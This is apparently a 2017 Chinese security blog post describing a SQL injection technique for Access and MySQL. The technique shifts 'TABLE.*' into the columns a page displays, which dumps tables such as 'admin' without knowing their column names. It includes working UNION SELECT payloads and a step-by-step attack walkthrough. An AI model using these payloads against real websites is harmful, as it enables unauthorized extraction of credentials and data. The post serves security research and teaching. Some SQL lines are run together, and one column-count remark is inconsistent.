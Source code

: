 ```yaml
---
layout: post
author: Vulkey_Chen
title: "移位溢注：告别依靠人品的偏移注入"
date: 2017-03-08
permalink: /archives/2017-03-08/1
---
```


## **介绍**：

在Access数据库类型注入的时候，我们获取不到列名(前提是有表名)，一般会选择使用偏移注入，但是这种注入方式往往借助的是个人的人品，且步骤繁琐。本文中我们研究了一种新的注入技术让“偏移注入不在需要人品”。在这里定义这种注入技术为：“移位溢注技术”。
它适用于ACCESS和MYSQL（任何版本）
<!-- more -->

## **正文：**

我们先来看看普通的偏移注入步骤：

```
1.判断注入点
2.order by 判断长度
3.判断表名
4.联合查询
5.获取表中列数：**union select 1,2,3,4,..,\* from TABLE**
6.开始偏移注入：**TABLE as a inner join TABLE as b ona.id=b.id**
```

由于步骤6的方法过于需要人品值，且语句繁琐，因此在这里，我们研究新的注入技术：

首先来看看步骤6语句的整体意思：

步骤6的语句，**表示给TALBE取2个别名，然后分别用别名取查询TALBE的内容（表a和表b）；而on a.id = b.id 这样的条件是为了满足语法需求，实际并没有作用，因为相同内容的表，相同字段内容一定相同。**

这时，我们再回过头来看步骤5：

**由于联合查询中select后面添加数字的目的是为了让联合查询返回接结果和网站正常查询返回的结果的列数一致（不一致数据库会报错，页面无法显示），且\*表示通配符，可以表示整个表格所有列；因此这里通过数字来占位，并使用\*来替代TABLE中的所有列，使得联合查询可以完成，并推算出\*的值。**

这时候我们继续研究偏移注入的整体公式方法，发现即使使用多级偏移注入也需要一定的概率(人品值)才可以得到想要的结果，所以我们就尝试研究新的方法能不能替换这种不固定概率的方法。

现在我们重新整理一下SQL语句，从联合查询开始：

1.原union语句：**union select 1,2,3,..,p..,n from TABLE**

（p=页面爆出的数字，可能有多个p1,p2..；n=原网站查询的总列数；TALBE=我们获得的表名；下面开始就使用上述字母的定义）

2.新语句：

**union select 1,2,3,..,p-1,TABLE.\*,p+k,..,nfrom TABLE where** **字段名** **=** **字段内容**

--在p的位置爆出TALBE表中第一个字段的内容（其他位置还可能爆出更多内容）

（这里如果存在已知字段名可以使用，没有就不用，一般id这个字段时存在的，可以使用id = 1来显示第一行）

**union select1,2,3,..,p-2,TABLE.\*,p+k-1,..,n from TABLE where** **字段名** **=** **字段内容**

--在p的位置爆出TALBE表中第二个字段的内容（其他位置还可能爆出更多内容）

**union select 1,2,3,..,p-3,TABLE.\*,p+k-2,..,nfrom TABLE where** **字段名** **=** **字段内容**

--在p的位置爆出TALBE表中第三个字段的内容（其他位置还可能爆出更多内容）

注：这里一定是TALBE.*而不是*

3.1 **以此类推可以爆出TALBE的每一列内容。**

3.2 **如果p<k则没法爆出p+1列至k列的内容，如果n-p<k则无法爆出第1列至k-(n-p)列**。

## **原理：**

1.由原语句：**union select 1,2,3,..,p..,n-k,\* from TABLE** 可以得出该联合查询的目的是构造和原网站相同列数的查询结构，使得页面上可以显示对应的数字；这条语句相当于是做了两次查询并将它们的结果合并，第一次做了**select 1,2,3,..,n-k from TALBE** ，第二次做了**select \* from TALBE** ，然后将它们的结果合并。

这可以参考mysql的语句：**select 1,2,3,4,5,admin.\* from admin;**

![img](http://vulkey.oss-cn-hangzhou.aliyuncs.com/2017-03-08/0x00.jpg)

![img](http://vulkey.oss-cn-hangzhou.aliyuncs.com/2017-03-08/0x01.jpg)

![img](http://vulkey.oss-cn-hangzhou.aliyuncs.com/2017-03-08/0x02.jpg)

2.只要满足原理1的要求，保障联合查询的结果和原网站查询的结果列数一致即可；因此可以将TALBE.*向前移动至页面显示的数字处来爆出TALBE列中的内容。

这可以参考mysql的语句：

```mysql
select 1,2,3,4,5,6,7,8,9,10 from newswhere id =1 union select 1,2,3,4,5,6,7,admin.* from admin;
select 1,2,3,4,5,6,7,8,9,10 from newswhere id =1 union select 1,2,3,admin.*,7,8,9,10 from admin;
```

**注：假设数字4、5在页面显示。**

由下图可知，其实数据已近查询出来，但是页面没有显示，这个是通过平移查询结果到页面显示的数字上去，即可爆出敏感字段。

![img](http://vulkey.oss-cn-hangzhou.aliyuncs.com/2017-03-08/0x03.jpg)

![img](http://vulkey.oss-cn-hangzhou.aliyuncs.com/2017-03-08/0x04.jpg)

## **例子：**

**步骤1：**判断注入点是否存在

![img](http://vulkey.oss-cn-hangzhou.aliyuncs.com/2017-03-08/0x05.jpg)

步骤2：

![img](http://vulkey.oss-cn-hangzhou.aliyuncs.com/2017-03-08/0x06.jpg)

![img](http://vulkey.oss-cn-hangzhou.aliyuncs.com/2017-03-08/0x07.jpg)

**步骤3：**获得表名(必备条件)   and exists(select * from admin)

![img](http://vulkey.oss-cn-hangzhou.aliyuncs.com/2017-03-08/0x08.jpg)

**步骤4：**获取不了列名（当尝试多个常用字段名以后，最终还是发现无法获得字段名）

**步骤5：**使用联合查询(union select)

![img](http://vulkey.oss-cn-hangzhou.aliyuncs.com/2017-03-08/0x09.jpg)

![img](http://vulkey.oss-cn-hangzhou.aliyuncs.com/2017-03-08/0x010.jpg)

步骤6：使用新注入技术方法

（1）获取admin表的列数：

```mysql
UNION SELECT1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,*from admin #--返回错误页面

UNION SELECT1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,*from admin #--返回错误页面

UNION SELECT1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,*from admin #--返回错误页面

UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,*from admin #--返回错误页面
.....

UNION SELECT1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,*from admin #--返回步骤5页面，因此admin表的列数为6
```

![img](http://vulkey.oss-cn-hangzhou.aliyuncs.com/2017-03-08/0x011.jpg)

![img](http://vulkey.oss-cn-hangzhou.aliyuncs.com/2017-03-08/0x012.jpg)

![img](http://vulkey.oss-cn-hangzhou.aliyuncs.com/2017-03-08/0x013.jpg)

（2）由于网页中包含连续数字，表示可以显示连续的查询结果，构造SQL语句查询前四列第一行。

```mysql
UNION SELECT1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,admin.*,34,35from admin
```

![img](http://vulkey.oss-cn-hangzhou.aliyuncs.com/2017-03-08/0x014.jpg)

![img](http://vulkey.oss-cn-hangzhou.aliyuncs.com/2017-03-08/0x015.jpg)

```mysql
UNION SELECT1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,admin.*,34,35from admin where id = 3
```

![img](http://vulkey.oss-cn-hangzhou.aliyuncs.com/2017-03-08/0x016.jpg)

## **总结**

在这里我们命名这种新注入技术为"移位溢注"。由此如果MYSQL小于5.0的情况下所具备的条件和ACCESS一样，也可以使用此方法注入，如果是MYSQL大于5.0的版本，使用此方法可以省去获得列名的步骤。

**文章研究：**米斯特安全攻防实验室 MST.Lab-gh0stkey & Seagull